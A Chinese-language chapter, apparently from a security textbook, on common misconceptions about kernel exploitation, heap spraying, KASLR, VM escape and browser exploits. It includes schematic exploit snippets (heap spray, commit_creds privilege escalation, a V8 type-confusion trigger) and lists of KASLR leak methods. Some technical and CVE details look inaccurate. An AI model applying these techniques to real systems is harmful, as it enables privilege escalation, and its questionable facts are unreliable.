








# 第31章 高级漏洞利用技术 — 常见误区

> "比无知更危险的，是错误的确信。" —— 在安全研究领域，错误认知不仅阻碍技术精进，更可能在实际渗透测试中导致灾难性的失败或法律风险。

本章梳理高级漏洞利用中最常见的 **8个认知误区**，逐一剖析其错误根源，给出正确的理解框架，并附以真实案例和技术细节。无论你是刚接触内核漏洞利用的新手，还是经验丰富的漏洞猎手，都值得对照检查。

---

## 误区全景：从"道"的高度审视

在逐一分析具体误区之前，先从 **道法术器** 四个层次建立认知框架：

| 层次 | 含义 | 误区根源 | 正确认知 |
|------|------|---------|---------|
| **道** — 哲学观 | 安全研究的根本目的和方法论 | 为利用而利用，忽视防御本质 | 攻防一体，理解根因才能真正提升安全 |
| **法** — 体系观 | 知识体系的完整性 | 片段化学习，只见树木不见森林 | 建立完整的技术栈认知（内核→用户态→网络→应用） |
| **术** — 方法论 | 具体技术路径的选择 | 盲目追求"高深"技术，忽视工程实践 | 工程化、可靠化、可复现的方法才是正道 |
| **器** — 工具层 | 工具和平台的使用 | 过度依赖单一工具或方法 | 理解工具原理，灵活组合多种技术手段 |

本章的8个误区恰好覆盖了这四个层次的典型错误：



---

## 误区一：内核漏洞利用等同于直接获取Root Shell

### 错误认知

很多初学者看到 `exploit.c` 最后输出 `# whoami\nroot`，就以为找到一个内核漏洞就能直接弹出root shell。实际上，截图背后可能是数百小时的调试，以及数十次Kernel Panic的惨痛经历。

### 为什么会产生这个误区

CTF竞赛题目和早期教程过度简化了利用过程。在CTF环境中，目标系统通常是关闭了大部分防护的单次利用场景，与真实环境差距巨大。初学者看到 "write what where → 提权" 的线性叙事，误以为现实也是如此。

造成这种认知偏差的具体原因：

1. **教程选择偏差**：公开教程倾向于展示成功案例，失败的调试过程被剪辑掉
2. **CTF环境简化**：`nokaslr`、`nopti`、`nosmep` 等启动参数在CTF中常见，真实环境全部启用
3. **幸存者偏差**：你看到的exploit是经过数百次尝试后的最终版本，而非第一次尝试
4. **工具抽象**：pwntools等框架封装了大量底层细节，让利用看起来像"调用API"一样简单

### 真实的内核漏洞利用流程



每个阶段的详细说明：

| 阶段 | 技术细节 | 常见失败原因 | 调试方法 |
|------|---------|-------------|---------|
| 漏洞确认 | 复现PoC，确认在目标内核版本上触发，评估可利用性 | PoC在不同配置下行为不一致 | 对比不同内核版本的补丁差异 |
| 信息泄露 | 绕过KASLR获取内核基址，常用方法：`/proc/kallsyms`（无KPTR_restrict时）、`dmesg`泄露、page fault侧信道、已知模块偏移推算 | KPTI阻止用户态直接映射内核地址 | QEMU GDB断点观察地址随机化 |
| 堆布局控制 | 通过 `sendmsg`、`msgsnd`、`add_key` 等系统调用喷射可控大小的对象，占据目标slab缓存 | 多核并发和中断导致布局被打乱 | `slabinfo`/`/proc/slabinfo` 观察slab状态 |
| 漏洞触发 | 精确触发UAF/溢出/越界读写，获得稳定的读写原语 | 触发时序不稳定导致Kernel Panic | 增加重试逻辑，收集core dump |
| 权限提升 | `commit_creds(prepare_kernel_cred(0))` 或覆写 `modprobe_path` | cred结构地址未知或已被加固 | `kallsyms_lookup_name` 或信息泄露获取符号地址 |
| 返回用户态 | `swapgs; iretq` 或 `kpti trampoline` | 栈上保存的寄存器状态被破坏 | GDB检查`swapgs`前后的GS段选择子 |
| 清理痕迹 | 修复被覆写的函数指针、恢复堆状态 | 遗留悬空指针导致后续Kernel Panic | 检查slab一致性、系统日志无异常 |

### 实际案例：CVE-2016-6187（prctl堆溢出）

以 Linux 内核 `prctl` 接口的一个老漏洞为例，完整的利用开发过程如下：

```c
// 阶段1：堆喷射 —— 分配大量目标大小的对象占据slab
#define SPRAY_COUNT 100
char *buffers[SPRAY_COUNT];
for (int i = 0; i < SPRAY_COUNT; i++) {
    buffers[i] = malloc(target_size);
    memset(buffers[i], 'A', target_size);
}

// 阶段2：触发溢出 —— 利用prctl写越界
prctl(PR_SET_MM, PR_SET_MM_MAP, &malicious_map, ...);

// 阶段3：验证溢出是否命中目标对象
// 检查相邻对象的元数据是否被修改
for (int i = 0; i < SPRAY_COUNT; i++) {
    uint64_t marker = *(uint64_t*)(buffers[i] + target_size - 8);
    if (marker != 0x4141414141414141ULL) {
        printf("[+] Object %d metadata corrupted at offset %zu\n",
               i, target_size - 8);
    }
}

// 阶段4：构造稳定的读写原语
// 通过溢出修改目标对象的指针，实现任意地址读写

// 阶段5：提权
commit_creds(prepare_kernel_cred(0));
```

关键数据：整个过程经历了 **阶段2失败导致Kernel Panic约200次**、**堆布局命中率从30%优化到95%**、**不同内核版本需要调整偏移量和喷射参数**。这不是一个"找到漏洞就提权"的线性过程。

### 正确的理解

内核漏洞利用是一项 **系统工程**，需要同时具备以下能力：

1. **内核架构知识**：理解调度、内存管理、系统调用机制、slab分配器工作原理
2. **调试能力**：熟练使用 QEMU+GDB、crash utility、ftrace、kprobes 等工具
3. **逆向工程能力**：从二进制代码中理解逻辑、计算偏移、识别符号
4. **稳定性工程**：处理并发、时序、竞争条件等问题，保证exploit 100%复现
5. **耐心与毅力**：接受反复失败，在数百次Kernel Panic中寻找正确路径
6. **系统性思维**：不是孤立地"找bug"，而是理解整个攻击链的每个环节

> **实践建议**：在QEMU中用 `nokaslr nopti nosmep` 启动参数先跑通利用流程，然后逐步开启防护机制，逐一攻克每一层防护。这种方法让你在调试时只需面对一个变量，而非同时处理多个未知因素。

---

## 误区二：堆喷射是"暴力"方法，不够优雅

### 错误认知

认为堆喷射是一种粗暴的、不可靠的方法，真正的高手应该精确控制内存布局。将堆喷射视为"不会精确堆布局的人才用的笨办法"。

### 为什么会产生这个误区

CTF竞赛（特别是pwn类题目）强调"精确控制"的美感——一次性精确构造堆布局，优雅地完成利用。但CTF场景是高度简化的理想环境：单线程、无中断、无其他内存分配干扰。这与真实内核环境完全不同。

这种认知偏差背后是对"优雅"的错误定义：在CTF中，优雅意味着"少用几个Gadget"；而在生产环境中，**优雅意味着可靠、可复现、可维护**。

### 内核堆环境的真实复杂性



具体影响因素包括：

- **多CPU并发**：多个CPU核心同时进行分配/释放，顺序不可预测。SLUB的per-cpu freelist在中断返回时可能被刷新
- **中断**：硬件中断随时打断执行流，中断处理函数中的内存分配会"污染"堆布局。甚至NMI（不可屏蔽中断）也能在任何时刻插入
- **内核线程**：`kswapd`（内存回收）、`kworker`（工作队列）、`khugepaged`（透明大页合并）等后台线程持续进行内存操作
- **内存压力**：系统负载变化时，slab缓存的合并和拆分行为随之改变。低内存时slab会被shrink，布局完全重置
- **CPU变体**：不同CPU的L1/L2缓存大小影响slab页的分配策略。NUMA架构下，不同node的内存分配路径完全不同
- **迁移和热插拔**：CPU热插拔、内存热添加等操作会触发slab缓存的重建

### 堆喷射的工程化方法

真正成熟的堆喷射技术包含以下环节：

**1. 选择合适的喷射系统调用**

| 系统调用 | 对象大小 | 可控度 | 成功率 | 适用场景 |
|---------|---------|-------|--------|---------|
| `sendmsg` + `iov` | 可变 | 高 | 高 | 通用堆喷射，支持scatter-gather |
| `msgsnd` | 固定（msg_msg结构） | 中 | 高 | 占据特定slab，适合msg_msg利用 |
| `add_key` | 可变 | 高 | 高 | 目标keyring对象，可控数据区域大 |
| `io_uring` SQEs | 固定 | 高 | 极高 | 5.6+内核，分配路径相对可控 |
| `epoll_event` | 可变 | 中 | 高 | 事件驱动对象，适合fd相关漏洞 |
| `perf_event_open` | 固定 | 中 | 中 | perf相关利用，对象结构固定 |
| `setxattr` | 可变 | 高 | 高 | 扩展属性对象，内核会kmalloc存储 |
| `sethostname` | 可变 | 高 | 中 | hostname缓冲区，适合内核栈相关利用 |

**选择原则**：优先选择分配路径短、对象数据可控度高、释放时机可预测的系统调用。

**2. 喷射数量的计算**

```python
import math

def calculate_spray_count(slab_size, slab_objects_per_page, 
                          target_confidence=0.95, safety_factor=1.5):
    """
    计算达到目标置信度所需的喷射数量
    
    基于二项分布模型：
    P(命中) = 1 - (1 - p)^n
    其中 p 是单次分配落在目标slab页的概率
    
    参数：
        slab_size: 目标slab的对象大小（字节）
        slab_objects_per_page: 每页可容纳的对象数量
        target_confidence: 目标置信度（0.95 = 95%）
        safety_factor: 安全系数，应对并发干扰
    """
    # 最坏情况下，目标slab只有一个空闲槽
    p = 1.0 / slab_objects_per_page
    
    # 反推达到目标置信度所需的最小样本量
    # n = ceil(ln(1-confidence) / ln(1-p))
    n = math.ceil(math.log(1 - target_confidence) / math.log(1 - p))
    
    # 乘以安全系数应对中断、调度等干扰
    final_count = int(n * safety_factor)
    
    return {
        'min_count': n,
        'recommended_count': final_count,
        'confidence': target_confidence,
        'per_page_probability': p
    }

# 示例：目标slab 64字节，每页64个对象
result = calculate_spray_count(64, 64)
print(f"最小喷射数: {result['min_count']}")
print(f"推荐喷射数: {result['recommended_count']}")  # 约280个对象
```

**3. 喷射后的验证**

```c
// 通过魔法值（magic value）验证喷射是否命中目标区域
#define MAGIC_MARKER 0xDEADBEEFCAFEBABEUL
#define MARKER_OFFSET 0x20  // 预期溢出会命中的偏移

// 喷射时在特定偏移写入魔法值
for (int i = 0; i < spray_count; i++) {
    *(uint64_t*)(buffers[i] + MARKER_OFFSET) = MAGIC_MARKER;
}

// 触发溢出后，检查哪个对象的魔法值被修改
for (int i = 0; i < spray_count; i++) {
    uint64_t current = *(uint64_t*)(buffers[i] + MARKER_OFFSET);
    if (current != MAGIC_MARKER) {
        printf("[+] Object %d hit by overflow!\n", i);
        printf("    Original: 0x%016lx\n", MAGIC_MARKER);
        printf("    Current:  0x%016lx\n", current);
        // 进一步验证溢出的精确位置和大小
        hexdump(buffers[i], target_size + overflow_extra);
        
        // 记录偏移，用于后续利用
        record_hit_offset(i, current);
        break;  // 通常只需找到一个被命中的对象
    }
}
```

**4. 增强可靠性的技巧**

```python
# 技巧1：Fork后喷射 —— 子进程继承父进程的堆布局
import os
os.fork()  # 子进程的堆状态是父进程的快照

# 技巧2：多轮喷射 —— 第一轮探测，第二轮利用
# 第一轮：喷射+触发，记录命中偏移
# 第二轮：根据偏移精确布局，再次触发获取原语

# 技巧3：利用SLUB的partial list行为
# 预先分配大量对象填满当前partial page
# 触发释放让SLUB回收，再重新分配占据释放的空间
```

### 结论

堆喷射不是"笨办法"，而是 **工程化的标准做法**。在真实的内核漏洞利用中，可靠性远比"优雅"重要。一次可靠的堆喷射利用胜过十次在CTF中完美但在真实环境中失败的"精确"利用。**CTF的"优雅"是解题的优雅，生产环境的"优雅"是工程的优雅——两者标准完全不同。**

---

## 误区三：KASLR一旦被绕过就形同虚设

### 错误认知

认为只要泄露一个内核地址就能计算出所有内核地址，KASLR保护毫无意义。"绕过KASLR = 没有KASLR"。

### 为什么会产生这个误区

早期的KASLR实现（如2.6.x时代）确实存在这种问题——泄露一个地址就能推算出所有地址。很多教程仍然以此为基础教学，但现代内核的KASLR已经大幅演进。此外，很多CTF题目使用 `nokaslr` 启动，让初学者从未真正面对过KASLR带来的挑战。

### 现代KASLR的分层防护



**各层次的绕过难度分析：**

| 层次 | 泄露一次可推算范围 | 实际绕过难度 | 典型泄露途径 |
|------|-------------------|-------------|-------------|
| 内核代码基址 | vmlinux内所有符号 | 中等 | `/proc/kallsyms`（需root）、page fault时序、特定函数的地址泄露 |
| 模块基址 | 仅该模块内符号 | 较高 | 需要额外泄露该模块的地址，或利用已知相对偏移（仅限同编译环境） |
| 堆地址 | 无法推算其他slab地址 | 高 | 每个slab缓存独立随机化，泄露一个slab地址不能推算其他slab |
| 栈地址 | 仅当前线程栈 | 高 | 内核栈地址泄露不暴露其他线程栈的位置 |
| 物理内存映射 | 无法直接映射到虚拟地址 | 极高 | 需要额外的page table遍历或侧信道攻击 |

### 与其他防护机制的协同效应

KASLR的价值在于 **与其他防护机制形成纵深防御**：



**协同效应的量化分析：**

假设绕过每一层防护的独立概率为 P，那么：

- 仅KASLR：攻击者需要先泄露地址，假设成功概率 0.8
- KASLR + KPTI：泄露后还需绕过KPTI（内核页表隔离），综合概率 0.8 × 0.6 = 0.48
- KASLR + KPTI + SMEP：再绕过SMEP（不能直接跳用户态代码），综合概率 0.48 × 0.7 = 0.336
- 全部防护启用：综合成功概率可能低至 0.1～0.2

这意味着：**每多一层防护，利用链的成功率就大幅下降**。KASLR看似容易绕过，但它是整个防护链的第一环——没有它，后面的防护都可以被更简单地绕过。

### KASLR泄露的常见方法及限制

| 泄露方法 | 原理 | 限制条件 | 在现代内核上的可行性 |
|---------|------|---------|-------------------|
| `/proc/kallsyms` | 直接读取内核符号地址 | 需要 `kptr_restrict=0`，默认已限制为0 | 低（除非已有部分权限） |
| `dmesg` 泄露 | 内核启动日志包含地址信息 | 需要 `dmesg_restrict=0`，现代发行版已默认限制 | 低 |
| Timing Side-channel | 利用分支预测、缓存行为推断地址 | 精度有限，受噪声干扰大 | 中（需要多次尝试） |
| JOP/ROP信息泄露 | 利用已知 gadget 的地址推算基址 | 需要先找到可用的gadget | 中 |
| eBPF泄露 | 通过 eBPF verifier 的行为间接泄露内核地址 | 需要CAP_BPF权限或unprivileged eBPF | 低-中（内核5.8+限制更严） |
| 栈上残留数据 | 函数返回后栈上残留内核地址 | 需要精确的时序控制 | 中-高 |
| 页面错误侧信道 | 触发page fault观察内核行为差异 | 精度较低，受KPTI影响 | 低-中 |
| Spectre变体 | 利用推测执行泄露内核数据 | 需要特定微架构条件 | 低（大部分变种已缓解） |

### 结论

KASLR不是"一绕过就没用"的单点防护，它是纵深防御体系中的重要一环。其价值体现在三个层面：

1. **时间成本**：迫使攻击者必须先解决信息泄露问题，显著增加利用开发时间
2. **难度叠加**：与KPTI、SMEP等机制协同，每层防护都降低整体成功率
3. **攻击面收窄**：限制了可用的信息泄露途径，减少了攻击者的选项

> **正确理解**：KASLR的目标不是"不可能绕过"，而是"绕过需要付出额外代价"。安全防护的本质是增加攻击成本，而非追求绝对安全。

---

## 误区四：虚拟机逃逸只存在于老旧软件中

### 错误认知

认为现代虚拟化软件（VMware、QEMU、Hyper-V）已经足够安全，虚拟机逃逸只是2010年之前的历史问题。

### 为什么会产生这个误区

虚拟机逃逸漏洞的公开利用确实不如内核提权常见，媒体关注度也远低于浏览器漏洞。加上云服务商的公关宣传，营造了"虚拟化已很安全"的错觉。此外，VM逃逸的PoC很少公开，导致开发者对这一威胁的实际严重性缺乏认知。

### 现实：虚拟机逃逸是持续存在的高价值威胁

**近年来重大虚拟机逃逸漏洞时间线：**

| 年份 | CVE编号 | 目标 | 漏洞类型 | 影响 |
|------|---------|------|---------|------|
| 2024 | CVE-2024-22252 | VMware ESXi | UAF（XHCI控制器） | 从虚拟机逃逸到Hypervisor |
| 2024 | CVE-2024-21762 | FortiOS | 越界写（VPN组件） | 防火墙设备远程代码执行 |
| 2024 | CVE-2024-1212 | QEMU virtio-net | 越界读（vhost后端） | 宿主机信息泄露 |
| 2023 | CVE-2023-34048 | VMware vSphere | Use-After-Free（vSphere服务） | 无需认证的RCE |
| 2023 | CVE-2023-20588 | AMD SEV | 侧信道泄露 | SEV加密保护被绕过 |
| 2022 | CVE-2022-2639 | QEMU virtio-net | 整数溢出 | 宿主机代码执行 |
| 2021 | CVE-2021-22040 | VMware ESXi | UAF（USB控制器） | Hypervisor层代码执行 |
| 2020 | CVE-2020-3962 | VMware Workstation | UAF（SVGA 3D加速） | 从Guest到Host代码执行 |
| 2020 | CVE-2020-3948 | VMware Fusion | 堆溢出（SVGA） | Host端代码执行 |

**观察发现**：虚拟机逃逸漏洞并未消失，反而因为虚拟化功能的不断扩展而持续产生。2020-2024年间，VMware ESXi的逃逸漏洞数量甚至呈上升趋势。

### 攻击面持续扩大的技术原因



**关键攻击面解析：**

1. **virtio-gpu**：实现了GPU虚拟化，涉及复杂的图形API解析（virgl renderer），是2022-2024年VMware逃逸漏洞的主要来源。GPU虚拟化需要处理复杂的命令缓冲区和状态机，攻击面巨大
2. **io_uring host passthrough**：允许虚拟机直接使用宿主机的io_uring，攻击面直接暴露到宿主内核。io_uring作为Linux内核最新的异步I/O接口，自身仍在快速迭代，安全审计覆盖不足
3. **USB控制器模拟**：xHCI/UHCI/OHCI模拟代码历史悠久、逻辑复杂，长期是漏洞重灾区。USB协议本身的复杂性（多种传输类型、端点管理、带宽调度）使得完整正确实现极其困难
4. **virtio-fs**：共享文件系统，涉及复杂的文件系统逻辑和权限检查。DAX（直接访问）模式绕过了页面缓存，引入了新的竞态条件
5. **GPU直通/MIG**：NVIDIA的Multi-Instance GPU技术将单个GPU分割为多个隔离实例，其隔离机制的正确性直接影响云环境安全

### 云计算环境的特殊价值

虚拟机逃逸在APT（高级持续性威胁）攻击中具有极高价值：

- **单点突破，全面影响**：一个Hypervisor漏洞可能影响同一宿主机上的所有虚拟机（"横向爆炸半径"极大）
- **绕过网络隔离**：从虚拟机A逃逸到Hypervisor后，可访问同宿主机上的虚拟机B，即使两者之间有网络隔离
- **持久化**：在Hypervisor层植入后门极难被Guest内的安全软件检测，甚至可以快照恢复时保留
- **高价值目标**：金融、政府、医疗等关键行业大量依赖云基础设施，一旦突破影响面巨大
- **供应链攻击**：云服务商的Hypervisor漏洞可能影响成千上万的租户

### 结论

虚拟机逃逸不是历史问题，而是 **持续演进的现实威胁**。随着虚拟化功能的不断扩展、机密计算（Confidential Computing）的普及，以及云原生架构的深化，虚拟机逃逸的研究价值和实际意义都在持续增长。**Hypervisor是云安全的信任根基——根基一旦动摇，上层的所有安全措施都将失效。**

---

## 误区五：浏览器漏洞利用已经不可能了

### 错误认知

认为现代浏览器的沙箱、多进程架构、Site Isolation 等防护使得浏览器漏洞利用已经变得"不可能"。

### 为什么会产生这个误区

浏览器安全防护确实在过去十年取得了巨大进步。V8的Sandbox、SpiderMonkey的GC改进、Chrome的Site Isolation等技术大幅提高了利用难度。但"难度高"不等于"不可能"。这种认知混淆了"成本"和"可能性"的概念。

### 浏览器利用链的结构

一条完整的浏览器 0day 利用链通常包含以下环节：



**各环节的现状分析：**

| 环节 | 漏洞来源 | 近年漏洞数量 | 利用难度趋势 | 防护措施 |
|------|---------|-------------|-------------|---------|
| 渲染器RCE | V8 JIT优化器、GC逻辑、WebAssembly | 每年20-50个严重漏洞 | 稳定（JIT复杂性持续增加） | V8 Sandbox、Pointer Compression、Orinoco GC |
| 沙箱逃逸 | IPC机制（Mojo）、共享内存、文件描述符传递 | 每年5-15个 | 上升 | Mojo接口加固、Blink沙箱强化 |
| 浏览器主进程 | 网络栈、下载逻辑、扩展API | 每年3-10个 | 上升 | 进程隔离、权限最小化 |
| 内核提权 | GPU驱动、文件系统、网络栈 | 每年50+个 | 上升（但需适配浏览器沙箱） | KASLR、KCFI、PAC（ARM） |

### V8引擎漏洞的持续发现

V8 JavaScript引擎仍然是浏览器漏洞利用的主战场：

- **JIT编译器的复杂性**：V8的Turboshaft/TurboFan优化管线包含数百个优化Pass，每个Pass都可能引入漏洞。2023年Google修复了至少12个V8 0day漏洞
- **类型推断的不完善**：JavaScript的动态类型使得静态类型推断困难，优化假设可能被违反。V8的speculative optimization机制是漏洞的温床
- **WebAssembly的扩展**：WASM引入了新的攻击面（线性内存、类型系统、SIMD指令、GC集成），2023年后WASM相关漏洞显著增加
- **迭代速度与安全的矛盾**：浏览器厂商需要快速实现新Web标准，安全审计往往滞后于功能开发

**典型案例：CVE-2023-2033（V8类型混淆）**

```javascript
// 简化的漏洞触发原理
// V8的Turboshaft优化器错误推断了某个数组的元素类型
// 在特定的JIT编译路径下，优化器假设数组元素始终是Smi（小整数）
// 但通过精心构造的JavaScript代码，可以让数组包含对象指针
// 当优化后的代码将对象指针当作Smi处理时，导致类型混淆

function trigger_vuln() {
    // 步骤1：创建一个"纯净"的Smi数组
    let arr = [1, 2, 3];
    
    // 步骤2：触发JIT优化
    // 大量执行使V8将此函数标记为"热"并编译为机器码
    // 编译器假设arr始终是Smi数组
    for (let i = 0; i < 100000; i++) {
        arr[i % 3] = 1;
    }
    
    // 步骤3：违反优化假设
    // arr[0]被当作Smi处理，但实际存储的是对象指针
    // 这导致对象指针被当作整数值使用，实现类型混淆
    arr[0] = evil_object;
    
    // 此时可以通过arr[0]读写任意内存（OOB read/write）
}

// 利用类型混淆的OOB原语，进一步构造任意读写
// 最终实现渲染器进程的代码执行
```

### 浏览器利用的经济价值

- Chrome/Safari完整 0day 利用链在 Zerodium 等平台报价 **50万～250万美元**
- 针对移动端浏览器（Chrome Android/Safari iOS）的利用链价值更高
